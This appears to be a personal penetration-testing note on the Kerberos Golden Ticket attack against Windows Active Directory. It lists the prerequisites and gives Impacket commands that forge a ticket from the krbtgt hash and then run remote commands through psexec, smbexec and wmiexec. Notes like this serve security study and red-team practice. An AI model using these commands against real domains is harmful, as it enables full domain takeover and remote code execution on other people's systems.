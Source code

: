 **When we have the hash for TGS from Kerberos that means we can access any machine in the domain and we can abuse that using mimikatz**

# Requirements:
1. Domain SID
![[Pasted image 20221229190901.png]]

2. ntlm or nt  hash for krbtgt 


# Impackets

```bash

# To generate the TGT with NTLM
python ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# To generate the TGT with AES key
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

# mimikatz

![[Mimikatz#*Golden Ticket*]]

---
Tags: #mimikatz #golden_ticket #kerberos #impackets 
Resources: [kerberos_cheat_sheet](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)